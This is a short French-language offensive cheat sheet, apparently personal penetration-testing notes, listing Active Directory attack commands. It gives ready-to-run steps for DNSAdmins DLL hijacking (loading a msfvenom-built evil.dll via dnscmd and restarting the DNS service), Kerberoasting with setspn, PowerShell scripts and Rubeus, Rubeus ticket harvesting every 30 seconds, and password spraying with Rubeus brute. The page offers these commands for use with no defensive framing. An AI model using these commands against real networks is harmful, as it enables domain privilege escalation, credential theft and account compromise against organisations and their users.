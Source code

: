 
Utiliser après avoir un couple d'identifiant correct


#DLL-Hijacking 

L'attaque est possible si un utilisateur du Domain fait partie du groupe `DNSAdmin`
- Créer le payload DLL avec msfvenom et lancer un écouteur
- Se connecter au compte d'utilisateur et transféré la DLL
- Injecter la dll dans le processus système:

```sh
dnscmd /config /serverlevelplugindll C:\Temp\evil.dll

sc stop dns

sc start dns
```


#Kerberoasting

Acceder au system compromis et chercher les SPN vulnerables

```c
. .\Find-PotentiallyCrackableAccounts.ps1

Find-PotentiallyCrackableAccounts
```

```c
setspn.exe -Q */*
```

Demander un ticket pour le TGS

```c
. .\Get-TGSCipher.ps1
Get-TGSCipher -SPN "SPN" -Format john
```

```c
rubeus.exe kerberoast /outfile:hash.txt
```

#Harvesting

La récolte rassemble les tickets qui sont transférés vers le KDC et les enregistre pour les utiliser dans d'autres attaques telles que l'attaque par passe le ticket.

Cette commande indique à Rubeus de récolter des TGT toutes les 30 secondes

```c
Rubeus.exe harvest /interval:30
```

#Password-Spraying

Avant de pulvériser le mot de passe avec Rubeus, vous devez ajouter le nom de domaine du contrôleur de domaine au fichier hôte Windows.
Cela prendra un mot de passe donné et le "pulvérisera" contre tous les utilisateurs trouvés, puis donnera le `.kirbi` TGT pour cet utilisateur

```c
Rubeus.exe brute /password:<YOU_PASSWD> /noticket
```